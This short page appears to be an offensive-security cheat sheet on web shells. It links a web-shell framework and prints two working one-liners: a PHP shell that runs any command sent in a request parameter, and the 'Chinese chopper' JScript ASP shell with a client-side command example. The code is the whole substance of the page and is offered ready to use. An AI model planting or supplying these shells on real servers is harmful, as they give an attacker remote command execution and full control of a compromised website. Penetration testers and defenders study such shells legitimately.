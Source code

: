 # Web Shells

- [https://github.com/kraken-ng/Kraken](https://github.com/kraken-ng/Kraken)




## PHP

* [https://stackoverflow.com/a/3697776](https://stackoverflow.com/a/3697776)

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```




## ASP



### JScript

Chinese chopper:

```csharp
// Server-side
<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["cmd"],"unsafe");}</script>
// Client-side
Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())
```
